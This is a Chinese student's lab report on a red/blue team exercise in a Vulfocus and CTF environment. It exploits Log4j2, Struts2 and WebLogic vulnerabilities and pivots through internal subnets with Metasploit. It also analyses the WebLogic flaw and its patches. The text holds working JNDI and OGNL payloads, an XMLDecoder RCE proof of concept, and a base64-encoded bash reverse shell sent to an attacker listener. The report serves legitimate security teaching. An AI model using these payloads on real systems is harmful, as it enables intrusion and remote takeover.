# 2023暑期网络安全攻防实践记录报告

## **负责工作**

- 制定分工计划
- 作为红队完成漏洞存在性验证和漏洞利用

- 作为蓝队对漏洞攻击行为进行持续检测和威胁识别，并进行修复

## 实践过程

### 环境搭建

> 万事开头难，只要肯攀登

**1.配置虚拟机，调节网络环境**

本次实践中，虚拟机配置两张网卡：`Host-only`网卡和`网络地址转换(NAT)`


当然要完成红蓝攻防对抗，需要准备攻击者主机和靶机，直接使用多重加载镜像，能够有效简化整个实验过程：



同时为了使得挂载的两个虚拟机的ip地址不同，可以自行手动更新地址：


**2.从仓库中拉取到本机的虚拟机系统当中**：

在模拟红蓝网络攻防实践的整个过程之前，需要确保本地环境部署完毕，当然在黄药师录制好的[视频指导](https://www.bilibili.com/video/BV1p3411x7da/?p=22&spm_id_from=pageDriver&vd_source=61a1cf010feeebc60643481f16fc695e)下可以很快的部署完能够省略很多比较繁琐的操作：

```shell
git clone https://github.com/c4pr1c3/ctf-games.git
```

通过使用Docker Compose来构造docker环境，其中git下来的仓库老师已经配置好对应的.yml文件，直接执行即可构建对应的环境：

```shell
sudo apt update && sudo apt install -y docker.io docker-compose jq
```

构建好后，直接运行老师给出的bash脚本即可在本地的80端口开启容器：


此处在运行`start.sh`脚本时，需要在root用户权限下执行，当然，也可以将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令：

```shell
sudo usermod -a -G docker ${USER}
```

当然以上步骤都需要确保**网络能够正常进行访问**，如果访问或者拉取镜像时出现网络限制或者超时，可以更换docker镜像源和kali镜像源：

- **更换kali国内镜像源**：

  - 使用下列命令可以直接编辑`sources.list`

    ```css
    sudo vim /etc/apt/sources.list
    ```

  - 换源地址如下：

    ```shell
    # 中科大
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
     
    # 阿里云
    deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
     
    # 清华大学
    deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    ```

  - 保存成功后命令行输入 `sudo apt update`更新软件源

    ```shell
    sudo apt update
    ```

- **更换docker源：**

  - 创建或修改 /etc/docker/daemon.json 文件，修改：

    ```shell
    cd /etc/docker
    vim daemon.json
    ```

    加入如下配置：

    ```shell
    {
        "registry-mirrors" : [
        "https://registry.docker-cn.com",
        "http://hub-mirror.c.163.com",
        "https://docker.mirrors.ustc.edu.cn",
        "https://cr.console.aliyun.com",
        "https://mirror.ccs.tencentyun.com"
      ]
    }
    ```

    重启docker服务使配置生效：

    ```shell
    systemctl daemon-reload
    systemctl restart docker.service
    ```

    查看配置是否成功：

    ```shell
    docker info
    ```

    

**3.测试部署本地的Vulfocus**

进入部署好的地址，能够看到对应的镜像列表等信息：



在镜像列表同步上游镜像，能够得到Vulfocus已经提供的镜像：




尝试下载镜像，并在容器中启动环境进行一定测试：


**4.如何去自定义一个场景拓扑镜像**、

我们在搭建整个网络攻防的模拟环境的过程中，需要去构建跨网段渗透的场景镜像，而由于官网（[在线平台](https://vulfocus.cn/#/scene/list)）已经不再提供下载和资源镜像分享，因此需要自己去设计构建相应的拓扑场景和镜像：


我们直接手动设计场景，首先，要达成跨网段和识别，进入办公区和核心区的任务，简单模拟其环境供使用这一漏洞攻防环境，我们需要准备两张网卡实现二层网络的搭建：


攻击者主机通过暴露在“外网”的靶机漏洞从而渗透攻击DMZ区域，并将其作为跳板访问，依次利用漏洞访问到核心网内的靶机：


在容器中启动场景，查看相应的镜像信息：


完成上述步骤即构建了一个双层网段的渗透测试环境的模拟。

### 漏洞验证和利用

> 雄关漫道真如铁，而今迈步从头越。

#### Log4j2-CVE-2021-44228漏洞

##### 检测漏洞存在性

在Vulfocus启动漏洞环境，镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动：


浏览器访问该地址`192.168.56.109:11636`

实验环境访问端口为11636，故查看到容器名称为`optimistic_blackwell`

进入容器

```bash
docker exec -it optimistic_blackwell bash
```





查看到容器目录下有`demo.jar`文件，拉取到容器的宿主机

```bash
# docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```



- 反编译


使用[jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7)反编译demo.jar



源码中有名为`Log4j2RceApplic`的类，验证该漏洞存在

##### 验证漏洞可利用性

- 使用 `PoC` 手动测试

>"PoC" 是 "Proof of Concept" 的缩写，意为"概念验证"。在安全领域，PoC 手动测试通常用于验证潜在的漏洞或安全问题。测试人员会尝试利用已知的漏洞或攻击技术来测试系统的安全性，并验证是否存在潜在的风险。这种测试方法可以帮助发现和修复系统中的安全漏洞，以提高系统的安全性。

访问http://dnslog.cn/获取专属随机子域名`k5o9u7.dnslog.cn`



浏览器访问`192.168.56.109:11636/hello?payload=111`地址，使用Burp Suite进行抓包，修改GET请求的payload参数

```
# ldap://dnslog获取的随机域名/随便填
payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}
```

同时对payload字段进行**编码**，否则直接访问会导致400错误



在DNSLog网站成功接收到解析记录



##### 漏洞利用

攻击者主机attacker上下载[`JNDIExploit`工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

```bash
https://github.com/bkfish/Apache-Log4j-Learning.git
```

解压

```
unzip JNDIExploit.v1.2.zip
```

攻击者主机attacker启动777端口，等待受害者主机victim反弹回连getshell

```bash
nc -l -p 7777
```



应用工具JNDI-Injection-Exploit搭建服务，格式：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```

这里的命令是想要靶机运行的命令，-A后放的是发出攻击的电脑的ip，也是存放-C后“命令”的ip地址。

构造反弹shell的payload

```bash
bash -i >& /dev/tcp/192.168.56.105/7777 0>&1
```

将其进行base64加密

```tex
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=
```

执行JNDI-Injection-Exploit

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwNS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.56.105
```



使用Burp Suite进行抓包，修改`GET 192.168.56.107:28490/hello?payload=111`的payload参数为上图框选的内容并进行编码

```
${jndi:rmi://192.168.56.105:1099/5ekovi}
```


发送后，即可发现攻击者主机的监听窗口反弹shell



查看flag

```bash
ls /temp
```



```bash
flag-{bmh20c56a41-fc29-44f1-9da4-0e3b7bbfb8ff}
```

在管理界面提交该flag通过


### 多网段渗透场景攻防

#### 外层（靶机 1）

从模拟显示的角度来考虑，最外层的主机负责对外提供服务，于是直接得到了提供服务的端口号，也就是vulfocus平台上场景的入口端口

##### CVE-2020-17530 Struts2

我们启动场景后，查看当前运行的镜像：



能够看到在Host-only网卡的本地地址的58841端口开启了`CVE-2020-17530 Struts2`的靶场环境，


切换到攻击者主机并执行：

```shell
# metasploit 基础配置
# 更新 metasploit
sudo apt install -y metasploit-framework
# 初始化 metasploit 本地工作数据库
sudo msfdb init
```



```shell
# 启动 msfconsole
msfconsole
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
```



通过Metasploit工具的平台搜索struts2搜索CVE-2020-17530，如果是前者的话需要进行一点肉眼筛选，这次的漏洞编号说明是2020年的漏洞，于是可用的exploit只有2020年9月14日的：

```shell
Interact with a module by name or index. For example info 7, use 7 or use exploit/multi/http/struts_code_exec_parameters
msf6 > search cve-2020-17530

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_multi_eval_ognl  2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/struts2_multi_eval_ognl
```

之后就是选用exploit，然后添加payload，这里选择和课件中一样的`cmd/unix/reverse_bash`，随后是options的设置阶段，设置rhosts为Victim主机的eth0网卡地址，rport则为平台上随机的端口，同时将payload中的lhost设置为Attacker主机的Host-Only网卡，之后就剩下输入run或者exploit执行。

随后只需要等待exploit运行完成，payload中的反弹bash会自动开启，接下来就是`ls /tmp`查看flag了：



#### 中层（靶机 2-4）

##### weblogic-cve-2019-2725

当拿到外层主机的shell之后是需要对外层主机所在内部网络进行扫描，尝试找出进一步向深层进发的跳板主机，需要做的5个步骤大概是如下内容：

1. 对已攻入主机所在内网网段中其他主机进行存活验证

2. 对存活的其他主机进行端口扫描

3. 对已开放端口号进行信息收集，得到开放的服务的信息

4. 从开放的服务入手获取版本寻找可用的漏洞

5. 确定漏洞，装载payload，exploit

首先是将已经获得的1号会话即外层主机shell升级为meterpreter，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：

```shell
Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)

```

主要的还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到`post/multi/manage/autoroute`模块，只需要将会话ID填入即可，之后运行便会自动添加路由信息到Metasploit的路由表中：

```shell
Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  2                yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 192.171.84.4
[*] Searching for subnets to autoroute.
[*] Did not find any new subnets to add.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.171.84.0       255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) >
```

之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP地址，可以让端口扫描更快速更高效，这里选择使用模块`post/multi/gather/ping_sweep`，填入必要的options之后就可以进行扫描了：

```shell
Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.171.84.2-254
rhosts => 192.171.84.2-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.171.84.2-254
[+]     192.171.84.5 host found
[+]     192.171.84.3 host found
[+]     192.171.84.4 host found
[+]     192.171.84.2 host found
[*] Post module execution completed
```

#### 内层（靶机 5）

##### nginx-php-flag

内层一样需要找到跳板主机访问到内层网络，通过升级普通会话到meterpreter，随后搭建autoroute添加路由表，随后进行存活性扫描，再者是端口扫描。

首先是升级会话和找到连接内层网络的跳板主机，这里因为开太多容器和虚拟机的问题回连速度略慢导致产生了报错，即前一会话仍在等待4433端口的回应时下一会话的payload已经发送过去导致本地端口冲突了，不过不影响，使用`jobs -l`确认后台执行完成后3个会话都升级到了meterpreter：

```shell
  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...
```

得到输出结果，并且提示我们需要通过 `index.php?cmd=ls /tmp` 的方式执行，最后成功得到 `flag5`：

```shell
View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/portscan/tcp) > set ports 80
ports => 80
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 192.172.85.2-3
rhosts => 192.172.85.2-3
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.172.85.2:         - 192.172.85.2:80 - TCP OPEN
[*] 192.172.85.2-3:       - Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/portscan/tcp) >
```



### 漏洞威胁监测和缓解修复

> 欲穷千里目，更上一层楼

#### weblogic-cve-2019-2725漏洞修复

通过我们在场景中的复现能够清楚看到，Weblogic-cve-2019-2725的漏洞源于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

我们从Oracle官方漏洞复现源拿到漏洞镜像，根据Oracle的漏洞报告，此漏洞存在于异步通讯服务，通过访问路径`/_async/AsyncResponseService`，判断不安全组件是否开启。`wls9_async_response.war`包中的类由于使用注解方法调用了Weblogic原生处理Web服务的类，因此会受该漏洞影响：


我们继续分析漏洞是如何发送http请求从而获得权限的，在`ProcessBuilder`类中打下断点，可以看到相应的调用栈过程：


我们逐步分析，首先程序是继承自`HttpServlet`的`BaseWSServlet`类，其中的service方法主要用于处理HTTP请求及其响应，通过HTTP协议发送的请求包封装在`HttpServletRequest`类的实例化对象`var1`中


调用`BaseWSServlet`中定义的内部类`AuthorizedInvoke`的`run()`方法完成传入HTTP对象的权限验证过程：



若校验成功，则进入到`SoapProcessor`类的process方法中，通过调用`HttpServletRequest`类实例化对象`var1`的`getMethod()`方法获取HTTP请求类型，若为POST方法，则继续处理请求：



HTTP请求发送至SoapProcessor类的handlePost方法：

```java
private void handlePost(BaseWSServlet var1, HttpServletRequest var2, HttpServletResponse var3) throws IOException {
    assert var1.getPort() != null;

    WsPort var4 = var1.getPort();
    String var5 = var4.getWsdlPort().getBinding().getBindingType();
    HttpServerTransport var6 = new HttpServerTransport(var2, var3);
    WsSkel var7 = (WsSkel)var4.getEndpoint();

    try {
        Connection var8 = ConnectionFactory.instance().createServerConnection(var6, var5);
        var7.invoke(var8, var4);
    } catch (ConnectionException var9) {
        this.sendError(var3, var9, "Failed to create connection");
    } catch (Throwable var10) {
        this.sendError(var3, var10, "Unknown error");
    }
}
```

**SOAP是一种通信协议**，用于应用程序之间的通信。它是一种轻量的、简单的、基于XML的协议，可以独立于平台和语言进行通信。SOAP定义了数据交互中如何传递消息的规则，比如在HTTP中规定了POST请求的传参方式，在数据类型不同的情况下可以使用不同的参数方式。



在整个进程调用中，`BaseWSServlet`类实例化对象`var1`封装了基于HTTP协议的SOAP消息：



其中`WorkAreaServerHandler`类中的`handleRequest()`方法用于处理访问请求，通过`WlMessageContext`对象var2获取传入的`MessageContext`，调用`var2`对象的`getHeaders()`方法获取传入SOAP消息的Header元素，并最终将该元素传递到`WorkAreaHeader`对象`var4`中



通过上述漏洞调用过程分析，要想有效修复漏洞，需要开发补丁,最直接的方法是在路径weblogic/wsee/workarea/WorkContextXmlInputAdapter.java中添加了validate方法，即在调用startElement方法解析XML的过程中，如果解析到Element字段值为Object就抛出异常：

```java
private void validate(InputStream is) {
     WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```

然而，采用黑名单的防护措施很快就被POC轻松绕过，因为其中不包含任何Object元素。尽管经过XMLDecoder解析后，这种方法仍然会导致远程代码执行，例如给出一段poc：

```java
<java version="1.4.0" class="java.beans.XMLDecoder">
    <new class="java.lang.ProcessBuilder">
        <string>calc</string><method name="start" />
    </new>
</java>
```

因为其中不包含任何Object元素，但经`XMLDecoder`解析后依旧造成了远程代码执行

因此，我们需要将更多的关键字漏洞加入到黑名单中，从而做到当程序解析到关键字属性的字样时，即设置为异常，object、new、method关键字继续加入到黑名单中，一旦解析XML元素过程中匹配到上述任意一个关键字就立即抛出运行时异常。但是针对void和array这两个元素是有选择性的抛异常，其中当解析到void元素后，还会进一步解析该元素中的属性名，若没有匹配上index关键字才会抛出异常。而针对array元素而言，在解析到该元素属性名匹配class关键字的前提下，还会解析该属性值，若没有匹配上byte关键字，才会抛出运行时异常：

```java
public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
              throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
       String var9 = attributes.getValue("class");
       if(var9 != null && !var9.equalsIgnoreCase("byte")) {
      throw new IllegalStateException("The value of class attribute is not valid for array element.");
     }
```

当然，如果攻击者使用的poc中再次的利用了void、array和Class或者其他元素依然可能导致绕过补丁，因此这种修复漏洞的方式只能一定程度上的缓解，而不是一种完全可靠的防护措施。

**查阅官方文档，官方对此漏洞发布了紧急的修复方式：**

官方已于4月26日公布紧急补丁包，下载地址如下：https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html?from=timeline

主要通过两种方式：

- **升级本地JDK版本**

  因为Weblogic所采用的是其安装文件中默认1.6版本的JDK文件，属于存在反序列化漏洞的JDK版本，因此升级到JDK7u21以上版本可以避免由于Java原生类反序列化漏洞造成的远程代码执行。

- **配置URL访问控制策略**

  部署于公网的WebLogic服务器，可通过ACL禁止对/_async/*及/wls-wsat/*路径的访问。

- **删除不安全文件**

  - 删除wls9_async_response.war与wls-wsat.war文件及相关文件夹，并重启Weblogic服务。具体文件路径如下：

    10.3.*版本：

    ```bash
    \Middleware\wlserver_10.3\server\lib\%DOMAIN_HOME%\servers\AdminServer\tmp\_WL_internal\%DOMAIN_HOME%\servers\AdminServer\tmp\.internal\
    ```

#### 自动化攻击脚本编写（struts2-cve-2020-17530）

根据分析，Apache Struts 2是一个用于开发Java EE网络应用程序的开源网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。

如果开发人员使用了 `%{…}` 语法，那么攻击者可以通过构造恶意的 `OGNL` 表达式，引发 `OGNL` 表达式二次解析，最终造成远程代码执行的影响。

因此这是一个远程代码执行漏洞，所以可以尝试构造对应的`OGNL`的表达式脚本来尝试攻击。

在场景中，针对暴露的第二个靶机端口我们尝试进行攻击：


根据前文中我们已经构造的payload：

```shell
http://192.168.1.110:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```

尝试在代码中构造这一表达式：



运行后，通过burp抓包能够得到：



Getshell脚本的反弹命令需要进行进行编码转换，所以反弹shell可以使用https://www.ddosi.org/shell/ 在线工具平台转码：





对开放端口运行脚本，成功getshell：



## 参考资料

- [关于Oracle WebLogic wls9-async组件存在反序列化远程命令执行漏洞的安全公告（第二版）](https://www.cnvd.org.cn/webinfo/show/4999)
- [Oracle Security Alert Advisory - CVE-2019-2725](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
- [Long Term Persistence of JavaBeans Components: XML Schema](https://www.oracle.com/technical-resources/articles/java/persistence3.html)
- [2725 : Deserialization vulnerability in Oracle WebLogic Server](https://www.rapid7.com/db/vulnerabilities/oracle-weblogic-cve-2019-2725/)
- [How To Remove Docker Images, Containers, and Volumes | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-remove-docker-images-containers-and-volumes)
- [Struts2 S2-061 Remote Code Execution Vulnerability (CVE-2020-17530) Threat Alert - NSFOCUS, Inc., a global network and cyber security leader, protects enterprises and carriers from advanced cyber attacks.](https://nsfocusglobal.com/struts2-s2-061-remote-code-execution-vulnerability-cve-2020-17530-threat-alert/)
- [Oracle WebLogic Affected by Unauthenticated Remote Code Execution Vulnerability (CVE-2019-2725)](https://www.tenable.com/blog/oracle-weblogic-affected-by-unauthenticated-remote-code-execution-vulnerability-cve-2019-2725)
